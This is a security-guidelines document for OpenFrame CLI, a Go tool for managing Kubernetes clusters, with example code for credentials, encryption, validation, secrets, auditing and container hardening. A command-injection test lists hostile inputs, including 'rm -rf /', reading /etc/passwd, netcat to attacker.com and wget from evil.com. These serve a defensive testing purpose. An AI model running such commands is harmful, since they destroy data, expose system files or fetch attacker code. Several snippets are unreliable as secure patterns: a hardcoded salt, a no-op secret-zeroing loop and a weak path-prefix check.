

# Security Guidelines

This document outlines security best practices, patterns, and requirements for OpenFrame CLI development. Security is a critical concern when building tools that manage Kubernetes clusters, handle credentials, and interact with external services.

## Security Principles

### Defense in Depth

Implement multiple layers of security controls:



### Least Privilege Principle

- Grant minimum necessary permissions
- Use service accounts with limited scope
- Implement role-based access controls
- Regular permission audits and cleanup

### Secure by Default

- Enable security features by default
- Use secure protocols (HTTPS, TLS)
- Implement safe defaults for configuration
- Require explicit opt-in for insecure options

## Authentication and Authorization

### Credential Management

#### Secure Storage

```go
// Platform-specific credential storage
type CredentialStore interface {
    Store(key string, credential []byte) error
    Retrieve(key string) ([]byte, error)
    Delete(key string) error
    List() ([]string, error)
}

// Example implementation for Linux keyring
type linuxCredentialStore struct {
    keyring keyring.Keyring
}

func (s *linuxCredentialStore) Store(key string, credential []byte) error {
    // Encrypt before storing
    encrypted, err := s.encrypt(credential)
    if err != nil {
        return fmt.Errorf("failed to encrypt credential: %w", err)
    }
    
    return s.keyring.Set(keyring.Item{
        Key:  key,
        Data: encrypted,
    })
}
```

#### Credential Rotation

```go
type CredentialManager struct {
    store      CredentialStore
    rotationTTL time.Duration
    logger     *slog.Logger
}

func (m *CredentialManager) RotateCredential(key string) error {
    // Retrieve current credential
    current, err := m.store.Retrieve(key)
    if err != nil {
        return fmt.Errorf("failed to retrieve credential: %w", err)
    }
    
    // Check if rotation is needed
    if !m.needsRotation(key) {
        return nil
    }
    
    // Generate new credential
    newCred, err := m.generateCredential()
    if err != nil {
        return fmt.Errorf("failed to generate new credential: %w", err)
    }
    
    // Store new credential
    if err := m.store.Store(key, newCred); err != nil {
        return fmt.Errorf("failed to store new credential: %w", err)
    }
    
    // Audit log the rotation
    m.logger.Info("Credential rotated", "key", key, "timestamp", time.Now())
    
    return nil
}
```

### Kubernetes Authentication

#### Service Account Management

```go
type ServiceAccountManager struct {
    clientset kubernetes.Interface
    namespace string
}

func (m *ServiceAccountManager) CreateServiceAccount(name string, permissions []rbacv1.PolicyRule) error {
    // Create service account with minimal permissions
    sa := &corev1.ServiceAccount{
        ObjectMeta: metav1.ObjectMeta{
            Name:      name,
            Namespace: m.namespace,
            Labels: map[string]string{
                "app.kubernetes.io/managed-by": "openframe-cli",
                "openframe.ai/security-policy": "restricted",
            },
        },
        AutomountServiceAccountToken: &[]bool{false}[0], // Explicit disable
    }
    
    if _, err := m.clientset.CoreV1().ServiceAccounts(m.namespace).Create(
        context.Background(), sa, metav1.CreateOptions{},
    ); err != nil {
        return fmt.Errorf("failed to create service account: %w", err)
    }
    
    // Create role with specific permissions
    role := &rbacv1.Role{
        ObjectMeta: metav1.ObjectMeta{
            Name:      name + "-role",
            Namespace: m.namespace,
        },
        Rules: permissions,
    }
    
    if _, err := m.clientset.RbacV1().Roles(m.namespace).Create(
        context.Background(), role, metav1.CreateOptions{},
    ); err != nil {
        return fmt.Errorf("failed to create role: %w", err)
    }
    
    // Bind role to service account
    binding := &rbacv1.RoleBinding{
        ObjectMeta: metav1.ObjectMeta{
            Name:      name + "-binding",
            Namespace: m.namespace,
        },
        Subjects: []rbacv1.Subject{{
            Kind:      "ServiceAccount",
            Name:      name,
            Namespace: m.namespace,
        }},
        RoleRef: rbacv1.RoleRef{
            Kind:     "Role",
            Name:     name + "-role",
            APIGroup: "rbac.authorization.k8s.io",
        },
    }
    
    _, err := m.clientset.RbacV1().RoleBindings(m.namespace).Create(
        context.Background(), binding, metav1.CreateOptions{},
    )
    return err
}
```

## Data Protection

### Encryption at Rest

```go
type EncryptionManager struct {
    key    []byte
    cipher cipher.AEAD
}

func NewEncryptionManager(password string) (*EncryptionManager, error) {
    // Derive key from password using scrypt
    salt := []byte("openframe-cli-salt") // In production, use random salt
    key, err := scrypt.Key([]byte(password), salt, 32768, 8, 1, 32)
    if err != nil {
        return nil, fmt.Errorf("failed to derive key: %w", err)
    }
    
    // Create AES-GCM cipher
    block, err := aes.NewCipher(key)
    if err != nil {
        return nil, fmt.Errorf("failed to create cipher: %w", err)
    }
    
    gcm, err := cipher.NewGCM(block)
    if err != nil {
        return nil, fmt.Errorf("failed to create GCM: %w", err)
    }
    
    return &EncryptionManager{
        key:    key,
        cipher: gcm,
    }, nil
}

func (e *EncryptionManager) Encrypt(data []byte) ([]byte, error) {
    // Generate random nonce
    nonce := make([]byte, e.cipher.NonceSize())
    if _, err := io.ReadFull(rand.Reader, nonce); err != nil {
        return nil, fmt.Errorf("failed to generate nonce: %w", err)
    }
    
    // Encrypt data
    ciphertext := e.cipher.Seal(nonce, nonce, data, nil)
    return ciphertext, nil
}

func (e *EncryptionManager) Decrypt(ciphertext []byte) ([]byte, error) {
    if len(ciphertext) < e.cipher.NonceSize() {
        return nil, errors.New("ciphertext too short")
    }
    
    // Extract nonce
    nonce := ciphertext[:e.cipher.NonceSize()]
    ciphertext = ciphertext[e.cipher.NonceSize():]
    
    // Decrypt data
    plaintext, err := e.cipher.Open(nil, nonce, ciphertext, nil)
    if err != nil {
        return nil, fmt.Errorf("failed to decrypt: %w", err)
    }
    
    return plaintext, nil
}
```

### Encryption in Transit

```go
type SecureHTTPClient struct {
    client  *http.Client
    timeout time.Duration
}

func NewSecureHTTPClient(timeout time.Duration) *SecureHTTPClient {
    // Configure TLS with security best practices
    tlsConfig := &tls.Config{
        MinVersion:         tls.VersionTLS12,
        CurvePreferences:   []tls.CurveID{tls.CurveP521, tls.CurveP384, tls.CurveP256},
        CipherSuites: []uint16{
            tls.TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384,
            tls.TLS_ECDHE_RSA_WITH_CHACHA20_POLY1305,
            tls.TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256,
        },
        PreferServerCipherSuites: true,
        InsecureSkipVerify:      false,
    }
    
    transport := &http.Transport{
        TLSClientConfig: tlsConfig,
        // Additional security settings
        DisableKeepAlives:     false,
        DisableCompression:    false,
        MaxIdleConns:          100,
        IdleConnTimeout:       90 * time.Second,
        TLSHandshakeTimeout:   10 * time.Second,
        ExpectContinueTimeout: 1 * time.Second,
    }
    
    return &SecureHTTPClient{
        client: &http.Client{
            Transport: transport,
            Timeout:   timeout,
        },
        timeout: timeout,
    }
}
```

## Input Validation and Sanitization

### Command Line Input Validation

```go
type InputValidator struct {
    patterns map[string]*regexp.Regexp
}

func NewInputValidator() *InputValidator {
    return &InputValidator{
        patterns: map[string]*regexp.Regexp{
            "clusterName":  regexp.MustCompile(`^[a-zA-Z0-9][a-zA-Z0-9\-]*[a-zA-Z0-9]$`),
            "namespace":    regexp.MustCompile(`^[a-z0-9]([-a-z0-9]*[a-z0-9])?$`),
            "serviceName":  regexp.MustCompile(`^[a-z0-9]([-a-z0-9]*[a-z0-9])?$`),
            "gitURL":       regexp.MustCompile(`^https://[a-zA-Z0-9\-\.]+/[a-zA-Z0-9\-\._/]+\.git$`),
            "imageTag":     regexp.MustCompile(`^[a-zA-Z0-9\-\._/:]+$`),
        },
    }
}

func (v *InputValidator) ValidateClusterName(name string) error {
    if name == "" {
        return errors.New("cluster name cannot be empty")
    }
    
    if len(name) > 63 {
        return errors.New("cluster name cannot exceed 63 characters")
    }
    
    if !v.patterns["clusterName"].MatchString(name) {
        return errors.New("cluster name contains invalid characters")
    }
    
    // Check for reserved names
    reserved := []string{"default", "kube-system", "kube-public", "kubernetes"}
    for _, r := range reserved {
        if name == r {
            return fmt.Errorf("cluster name '%s' is reserved", name)
        }
    }
    
    return nil
}

func (v *InputValidator) SanitizeInput(input string) string {
    // Remove control characters
    input = strings.Map(func(r rune) rune {
        if unicode.IsControl(r) {
            return -1
        }
        return r
    }, input)
    
    // Limit length
    if len(input) > 1024 {
        input = input[:1024]
    }
    
    return strings.TrimSpace(input)
}
```

### Path Traversal Prevention

```go
type PathValidator struct {
    allowedPaths []string
}

func NewPathValidator(allowed []string) *PathValidator {
    return &PathValidator{allowedPaths: allowed}
}

func (p *PathValidator) ValidatePath(path string) error {
    // Clean the path
    cleaned := filepath.Clean(path)
    
    // Convert to absolute path
    abs, err := filepath.Abs(cleaned)
    if err != nil {
        return fmt.Errorf("failed to resolve path: %w", err)
    }
    
    // Check for path traversal attempts
    if strings.Contains(abs, "..") {
        return errors.New("path traversal detected")
    }
    
    // Verify against allowed paths
    for _, allowed := range p.allowedPaths {
        allowedAbs, err := filepath.Abs(allowed)
        if err != nil {
            continue
        }
        
        if strings.HasPrefix(abs, allowedAbs) {
            return nil
        }
    }
    
    return errors.New("path not allowed")
}
```

## Secret Management

### Environment Variable Security

```go
type SecureEnvironment struct {
    vars   map[string]string
    logger *slog.Logger
}

func NewSecureEnvironment() *SecureEnvironment {
    return &SecureEnvironment{
        vars:   make(map[string]string),
        logger: slog.Default(),
    }
}

func (e *SecureEnvironment) SetSecret(key, value string) {
    // Mask value in logs
    e.logger.Debug("Setting environment variable", "key", key, "value", "[REDACTED]")
    e.vars[key] = value
}

func (e *SecureEnvironment) GetSecret(key string) (string, bool) {
    value, exists := e.vars[key]
    if exists {
        e.logger.Debug("Retrieved environment variable", "key", key, "found", true)
    }
    return value, exists
}

func (e *SecureEnvironment) ClearSecrets() {
    for key := range e.vars {
        // Overwrite with zeros before deleting
        for i := range e.vars[key] {
            // Note: This is limited protection in Go due to GC
            // but shows intent for security
        }
        delete(e.vars, key)
    }
    e.logger.Debug("Cleared all secrets from environment")
}
```

### Kubernetes Secret Management

```go
type SecretManager struct {
    clientset kubernetes.Interface
    namespace string
    logger    *slog.Logger
}

func (m *SecretManager) CreateSecret(name string, data map[string][]byte) error {
    // Validate secret name
    if err := m.validateSecretName(name); err != nil {
        return fmt.Errorf("invalid secret name: %w", err)
    }
    
    // Create secret with security labels
    secret := &corev1.Secret{
        ObjectMeta: metav1.ObjectMeta{
            Name:      name,
            Namespace: m.namespace,
            Labels: map[string]string{
                "app.kubernetes.io/managed-by": "openframe-cli",
                "openframe.ai/secret-type":     "credential",
            },
            Annotations: map[string]string{
                "openframe.ai/created-at": time.Now().Format(time.RFC3339),
                "openframe.ai/rotation-policy": "90d",
            },
        },
        Type: corev1.SecretTypeOpaque,
        Data: data,
    }
    
    // Create the secret
    _, err := m.clientset.CoreV1().Secrets(m.namespace).Create(
        context.Background(), secret, metav1.CreateOptions{},
    )
    if err != nil {
        return fmt.Errorf("failed to create secret: %w", err)
    }
    
    // Audit log
    m.logger.Info("Secret created",
        "name", name,
        "namespace", m.namespace,
        "keys", len(data),
    )
    
    return nil
}

func (m *SecretManager) RotateSecret(name string, newData map[string][]byte) error {
    // Update existing secret
    secret, err := m.clientset.CoreV1().Secrets(m.namespace).Get(
        context.Background(), name, metav1.GetOptions{},
    )
    if err != nil {
        return fmt.Errorf("failed to get existing secret: %w", err)
    }
    
    // Update data
    secret.Data = newData
    secret.Annotations["openframe.ai/rotated-at"] = time.Now().Format(time.RFC3339)
    
    _, err = m.clientset.CoreV1().Secrets(m.namespace).Update(
        context.Background(), secret, metav1.UpdateOptions{},
    )
    if err != nil {
        return fmt.Errorf("failed to update secret: %w", err)
    }
    
    m.logger.Info("Secret rotated", "name", name, "namespace", m.namespace)
    return nil
}
```

## Security Testing

### Security Test Framework

```go
package security_test

import (
    "testing"
    "time"
    
    "github.com/stretchr/testify/assert"
    "github.com/stretchr/testify/require"
)

func TestInputValidation(t *testing.T) {
    tests := []struct {
        name        string
        input       string
        expectError bool
    }{
        {
            name:        "valid cluster name",
            input:       "my-cluster-1",
            expectError: false,
        },
        {
            name:        "cluster name with path traversal",
            input:       "../../../etc/passwd",
            expectError: true,
        },
        {
            name:        "cluster name with control characters",
            input:       "cluster\x00name",
            expectError: true,
        },
        {
            name:        "excessively long cluster name",
            input:       strings.Repeat("a", 100),
            expectError: true,
        },
    }
    
    validator := NewInputValidator()
    
    for _, tt := range tests {
        t.Run(tt.name, func(t *testing.T) {
            err := validator.ValidateClusterName(tt.input)
            if tt.expectError {
                assert.Error(t, err)
            } else {
                assert.NoError(t, err)
            }
        })
    }
}

func TestCredentialEncryption(t *testing.T) {
    password := "test-password-123"
    manager, err := NewEncryptionManager(password)
    require.NoError(t, err)
    
    originalData := []byte("super-secret-credential")
    
    // Test encryption
    encrypted, err := manager.Encrypt(originalData)
    require.NoError(t, err)
    assert.NotEqual(t, originalData, encrypted)
    
    // Test decryption
    decrypted, err := manager.Decrypt(encrypted)
    require.NoError(t, err)
    assert.Equal(t, originalData, decrypted)
    
    // Test with wrong key
    wrongManager, err := NewEncryptionManager("wrong-password")
    require.NoError(t, err)
    
    _, err = wrongManager.Decrypt(encrypted)
    assert.Error(t, err, "Should fail with wrong decryption key")
}
```

### Penetration Testing Helpers

```go
func TestCommandInjection(t *testing.T) {
    // Test various command injection patterns
    maliciousInputs := []string{
        "test; rm -rf /",
        "test && cat /etc/passwd",
        "test | nc attacker.com 4444",
        "test `whoami`",
        "test $(id)",
        "test;wget http://evil.com/script.sh",
    }
    
    executor := NewExecutor()
    
    for _, input := range maliciousInputs {
        t.Run("injection_test_"+input[:10], func(t *testing.T) {
            // Attempt to create cluster with malicious name
            err := executor.CreateCluster(input)
            
            // Should fail validation before execution
            assert.Error(t, err, "Malicious input should be rejected")
            assert.Contains(t, err.Error(), "invalid", "Error should indicate validation failure")
        })
    }
}
```

## Audit Logging

### Security Event Logging

```go
type SecurityAuditor struct {
    logger *slog.Logger
}

func NewSecurityAuditor() *SecurityAuditor {
    return &SecurityAuditor{
        logger: slog.New(slog.NewJSONHandler(os.Stdout, &slog.HandlerOptions{
            Level: slog.LevelInfo,
        })),
    }
}

func (a *SecurityAuditor) LogAuthentication(user string, success bool, method string) {
    a.logger.Info("Authentication event",
        "event_type", "authentication",
        "user", user,
        "success", success,
        "method", method,
        "timestamp", time.Now().UTC(),
        "source_ip", a.getSourceIP(),
    )
}

func (a *SecurityAuditor) LogAuthorization(user string, resource string, action string, allowed bool) {
    a.logger.Info("Authorization event",
        "event_type", "authorization",
        "user", user,
        "resource", resource,
        "action", action,
        "allowed", allowed,
        "timestamp", time.Now().UTC(),
    )
}

func (a *SecurityAuditor) LogSecretAccess(user string, secretName string, action string) {
    a.logger.Warn("Secret access",
        "event_type", "secret_access",
        "user", user,
        "secret", secretName,
        "action", action,
        "timestamp", time.Now().UTC(),
    )
}

func (a *SecurityAuditor) LogSecurityViolation(violation string, details map[string]interface{}) {
    logEntry := a.logger.With(
        "event_type", "security_violation",
        "violation", violation,
        "timestamp", time.Now().UTC(),
        "severity", "high",
    )
    
    for key, value := range details {
        logEntry = logEntry.With(key, value)
    }
    
    logEntry.Error("Security violation detected")
}
```

## Container Security

### Secure Container Configurations

```go
type ContainerSecurityConfig struct {
    RunAsNonRoot             *bool
    RunAsUser                *int64
    ReadOnlyRootFilesystem   *bool
    AllowPrivilegeEscalation *bool
    DropCapabilities         []string
    AddCapabilities          []string
    SELinuxOptions           *corev1.SELinuxOptions
}

func GetSecureContainerConfig() *ContainerSecurityConfig {
    return &ContainerSecurityConfig{
        RunAsNonRoot:             &[]bool{true}[0],
        RunAsUser:                &[]int64{65534}[0], // nobody user
        ReadOnlyRootFilesystem:   &[]bool{true}[0],
        AllowPrivilegeEscalation: &[]bool{false}[0],
        DropCapabilities: []string{
            "ALL",
        },
        AddCapabilities: []string{
            // Add only specific capabilities if needed
        },
    }
}

func (c *ContainerSecurityConfig) ApplyToPodSpec(pod *corev1.PodSpec) {
    securityContext := &corev1.SecurityContext{
        RunAsNonRoot:             c.RunAsNonRoot,
        RunAsUser:                c.RunAsUser,
        ReadOnlyRootFilesystem:   c.ReadOnlyRootFilesystem,
        AllowPrivilegeEscalation: c.AllowPrivilegeEscalation,
        Capabilities: &corev1.Capabilities{
            Drop: []corev1.Capability{},
            Add:  []corev1.Capability{},
        },
    }
    
    // Apply drop capabilities
    for _, cap := range c.DropCapabilities {
        securityContext.Capabilities.Drop = append(
            securityContext.Capabilities.Drop,
            corev1.Capability(cap),
        )
    }
    
    // Apply add capabilities
    for _, cap := range c.AddCapabilities {
        securityContext.Capabilities.Add = append(
            securityContext.Capabilities.Add,
            corev1.Capability(cap),
        )
    }
    
    // Apply to all containers
    for i := range pod.Containers {
        pod.Containers[i].SecurityContext = securityContext
    }
}
```

## Security Best Practices Checklist

### Development Phase

- [ ] **Input Validation**: All user inputs are validated and sanitized
- [ ] **Authentication**: Proper authentication mechanisms are in place
- [ ] **Authorization**: Role-based access control is implemented
- [ ] **Encryption**: Sensitive data is encrypted at rest and in transit
- [ ] **Secret Management**: Secrets are stored securely and rotated regularly
- [ ] **Audit Logging**: Security events are logged for monitoring
- [ ] **Error Handling**: Errors don't leak sensitive information
- [ ] **Dependencies**: Third-party dependencies are regularly updated

### Testing Phase

- [ ] **Unit Tests**: Security functions have comprehensive unit tests
- [ ] **Integration Tests**: Security controls are tested in realistic scenarios
- [ ] **Penetration Tests**: Common attack vectors are tested
- [ ] **Static Analysis**: Code is scanned for security vulnerabilities
- [ ] **Dynamic Analysis**: Runtime security testing is performed
- [ ] **Dependency Scanning**: Third-party dependencies are scanned for vulnerabilities

### Deployment Phase

- [ ] **Secure Defaults**: Security features are enabled by default
- [ ] **Least Privilege**: Minimal permissions are granted
- [ ] **Network Security**: Appropriate network policies are in place
- [ ] **Monitoring**: Security monitoring and alerting is configured
- [ ] **Incident Response**: Security incident procedures are defined
- [ ] **Documentation**: Security configurations are documented

## Security Code Review Guidelines

### Code Review Checklist

When reviewing security-related code:

1. **Authentication/Authorization**
   - Are credentials handled securely?
   - Is access control properly implemented?
   - Are tokens validated correctly?

2. **Input Validation**
   - Are all inputs validated?
   - Is sanitization performed appropriately?
   - Are there any injection vulnerabilities?

3. **Cryptography**
   - Are strong encryption algorithms used?
   - Are keys managed securely?
   - Is random number generation secure?

4. **Error Handling**
   - Do errors leak sensitive information?
   - Are errors logged appropriately?
   - Is error recovery secure?

5. **Data Handling**
   - Is sensitive data encrypted?
   - Are secrets cleared from memory?
   - Is data transmission secure?

### Security Review Process

1. **Automated Scanning**: Run security scanners before manual review
2. **Threat Modeling**: Identify potential attack vectors
3. **Manual Review**: Security-focused code examination
4. **Testing**: Execute security test cases
5. **Documentation**: Document security assumptions and decisions

## Incident Response

### Security Incident Handling

```go
type SecurityIncident struct {
    ID          string
    Type        string
    Severity    string
    Description string
    Timestamp   time.Time
    Reporter    string
    Status      string
    Response    []string
}

type IncidentManager struct {
    incidents []SecurityIncident
    logger    *slog.Logger
    notifier  NotificationService
}

func (m *IncidentManager) ReportIncident(incident SecurityIncident) error {
    incident.ID = generateIncidentID()
    incident.Timestamp = time.Now().UTC()
    incident.Status = "reported"
    
    m.incidents = append(m.incidents, incident)
    
    // Log the incident
    m.logger.Error("Security incident reported",
        "incident_id", incident.ID,
        "type", incident.Type,
        "severity", incident.Severity,
        "description", incident.Description,
    )
    
    // Send notifications based on severity
    if incident.Severity == "critical" || incident.Severity == "high" {
        return m.notifier.SendUrgentNotification(incident)
    }
    
    return m.notifier.SendNotification(incident)
}
```

## Summary

Security is paramount in OpenFrame CLI development. This guide provides:

- **Authentication and Authorization**: Secure credential management and access control
- **Data Protection**: Encryption at rest and in transit
- **Input Validation**: Comprehensive input sanitization and validation
- **Secret Management**: Secure handling of sensitive information
- **Security Testing**: Framework for testing security controls
- **Audit Logging**: Comprehensive security event logging
- **Container Security**: Secure container configurations
- **Incident Response**: Security incident handling procedures

Follow these guidelines to ensure OpenFrame CLI maintains the highest security standards while providing powerful cluster management capabilities.